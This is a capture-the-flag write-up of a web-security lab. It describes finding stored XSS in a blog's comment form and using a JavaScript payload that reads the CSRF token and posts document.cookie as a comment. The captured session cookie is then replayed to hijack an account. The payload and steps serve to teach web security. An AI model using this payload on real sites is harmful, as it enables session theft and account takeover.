 # Challenge: Most Cookies
- Category: Web

## Description

## Flag: 


## Solution
Opening the website, it was a blogpage with a login page and comment boxes under each blog post.

To check if XSS attacks work on this website i commented `<script>alert('hmmm')</script>`

<img width="578" height="208" alt="image" src="https://github.com/user-attachments/assets/07299798-dc55-48f1-a055-db8e944b6aa5" />

This confirmed that the website is vulnerable to XSS attacks, since `alert()` created a popup window.

When i sent my comment, using proxy mode on BurpSuite i found

<img width="1318" height="428" alt="image" src="https://github.com/user-attachments/assets/fb4fef24-f6b9-44ea-9ef6-60e460db082a" />

Here the important parts are `Cookie: session=nXyCSGTAzjBOZrIXWrgiGfsvN0TRqEGb` and `csrf=yaei4oLq8uQ74HMVaQcDv5vZAkovjTu3`
Now, i know that the cookie and csrf token can be retrieved from the server so, i used
- `document.getElementsByName('csrf')[0].value` in the browser console returned `yaei4oLq8uQ74HMVaQcDv5vZAkovjTu3` to get the csrf 
- `document.cookie` to get `'session=nXyCSGTAzjBOZrIXWrgiGfsvN0TRqEGb'` to get the cookie.

since i now know how to get the csrf and cookie of the session, i looked for the form element and found
```
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
    <input required type="hidden" name="csrf" value="uKBG6nKCcfC7oLo8VvkRbR3pQZXHqupD">
    <input required type="hidden" name="postId" value="7">
    <label>Comment:</label>
    <textarea required rows="12" cols="300" name="comment"></textarea>
            <label>Name:</label>
            <input required type="text" name="name">
            <label>Email:</label>
            <input required type="email" name="email">
            <label>Website:</label>
            <input pattern="(http:|https:).+" type="text" name="website">
    <button class="button" type="submit">Post Comment</button>
</form>
```
Based on this, i made my own payload
```
<script>
window.addEventListener('DOMContentLoaded', function() {

var token = document.getElementsByName('csrf')[0].value
var data = new FormData();

data.append('csrf', token);
data.append('postId', 8);
data.append('comment', document.cookie);
data.append('name', 'hhhh');
data.append('email', 'hhh@email.com');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});

});
</script>
```
This got me the csrf and cookie 

<img width="545" height="128" alt="image" src="https://github.com/user-attachments/assets/477a46a6-db81-4c92-9f4e-6897f2d744da" />

Now, i opened the `my-account` page in BurpSuite on repeater mode and added `Cookie: session=91jTtW8EzZmtQ5SQHLEHcpUX5vrm1WdH` to the request and solved the challenge.

<img width="719" height="367" alt="image" src="https://github.com/user-attachments/assets/a1f122f5-7729-457e-9242-15039b74ae98" />

<img width="1780" height="645" alt="image" src="https://github.com/user-attachments/assets/a67bd274-9871-4c98-8966-c1deca117811" />

## References
- https://portswigger.net/web-security/csrf
- https://portswigger.net/web-security/cross-site-scripting
- https://owasp.org/www-community/attacks/xss/
